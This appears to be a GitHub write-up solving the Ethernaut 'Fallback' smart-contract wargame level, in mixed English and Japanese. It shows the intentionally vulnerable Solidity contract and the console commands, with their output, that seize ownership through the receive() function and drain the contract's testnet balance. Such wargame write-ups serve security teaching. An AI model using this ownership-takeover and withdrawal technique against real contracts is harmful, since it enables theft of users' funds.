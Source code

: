 ## Ethernaut-solution
---
### 1.Fallback

1. you claim ownership of the contract <br>
2. you reduce its balance to 0

### learning
- How to send Ether when intracting with an ABI<br>
- How to send Ether outside of the ABI <br>
- Converting to and from wei/Ether units <br>
- Fallback methods <br>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;//internal database how much Ether each address has and how many token each address has, how much money each address has 
  address payable public owner;

//constructor deployed it set as owner 
  constructor() public {//executed lifecycle of smartcontract first get deploy
    owner = msg.sender; //send as owner 
    contributions[msg.sender] = 1000 * (1 ether); //mapping contribution set amount of Ether
  }

//modifier can applied any function in a smart contract 
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

//contributionsの構成にsecurityhallがある
//何回もfunction contribute()を起動して、senderがownerよりcontributionsがmany many timesの状況になればownerになれてしまう

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }


  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

// this function is fallback function /you wanna send money to A contract 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);//the best way attack become the owner
    //contributions条件を満たすことが攻撃の最初の準備。satisfy second condition first.
    owner = msg.sender;
  }
}
```
### solution 

- 1.you claim ownership of the contract 

*contract*...reference of our smart contract 
```
n {methods: {…}, abi: Array(7), address: '0xc3309271b114BFdC7DaDCAd2C3ED67116A798624', transactionHash: undefined, constructor: ƒ, …}
```

*contract.address*...smartcontract address 
```
'0xc3309271b114BFdC7DaDCAd2C3ED67116A798624'
```

*player*...my address 
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

```
await contract.contributions(player) 
o {negative: 0, words: Array(2), length: 1, red: null}
```

//Array 0: 0 。現状no valueなのがわかる
```
await contract.getContribution()
```

//0のまんま

//そこでcall contribute function! It's payable.value: 1 => 1 ETH 

//1ETH send 
```
contract.contribute({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```

//1ETH sendでaccount valueが増えているか確認 key:value 
```
await contract.contributions(player)
o {negative: 0, words: Array(2), length: 1, red: null}
```
//Array 0: 1 。

//ownerの確認 
```
await contract.owner()
//this smartcontract own address
'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'
```

//playerの確認 = まだownerになってない
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```
```
//sendTransaction is special function from web3.js 
contract.sendTransaction({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```
//transaction
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177

```

//Transactionの成功によりcontractのownerが自分にchangeされているのを確認
```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```



- 2.you reduce its balance to 0
```
//balanceの確認
await getBalance(contract.address)
'0.000000000000000002'
```

//function withdrawをreturn
//transfer all balance our wallet!
```
contract.withdraw()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
```

//balanceが"0"になっているのを確認
```
await getBalance(contract.address)

'0'
```
---
## References
[DeFi Developer Academy](https://www.youtube.com/watch?v=tLMPGqRZx_M&list=PLj7si-ttXQyLum2AkpEy8PHxLHJJ2nDd-&index=3)
